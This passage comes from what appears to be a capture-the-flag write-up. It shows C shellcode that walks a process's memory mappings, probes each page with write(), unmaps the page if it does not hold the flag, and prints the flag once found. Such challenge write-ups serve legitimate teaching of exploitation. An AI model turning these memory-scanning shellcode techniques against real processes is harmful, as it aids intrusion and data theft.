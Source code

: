 

### Putting it all together

Finally, the final logic that iterates over the memory regions we find and searches for the flag ([full file](solution/shellcode/hard/solution.c)):

```c
// HARD MODE: find the flag assuming 'xor rdi, rdi' is the first instruction (we don't know where is the maze).
int _start(void)
{
    // Iteratively: find the lowest allocated address, probe it for being readable, and check if it looks
    // like the start of the flag.
    while (1)
    {
        // Find lowest allocation
        uintptr_t lowest_addr = find_lowest_allocated_addr();

        // Probe for pointer (we'll fail with -EFAULT in case the pointer is mapped with PROT_NONE)
        if (syscall_func(__NR_write, STDOUT_FILENO, (void *) lowest_addr, 1) == 1)
        {
            char * readable_pointer = (char *) lowest_addr;

            // Check if we found the flag
            if ((readable_pointer[0] == 'C') && (readable_pointer[1] == 'T') && (readable_pointer[2] == 'F'))
            {
                // Flag found! Print and exit
                syscall_func(__NR_write, STDOUT_FILENO, readable_pointer, 90);
                syscall_func(__NR_exit, 1);
            }
        }

        // un-map and go again!
        syscall_func(__NR_munmap, lowest_addr, PAGE_SIZE);
    }

    // Bye-bye
    syscall_func(__NR_exit, 0);
}
```

Notice that on each iterations, if the lowest allocated memory address doesn't contain the flag - we unmap it (using `munmap`) in order to find the next one in the next iteration.

And very quickly, we get the flag from the server!



## Impossible mode ☠️

Well, that was cool. But let's make it even more interesting..
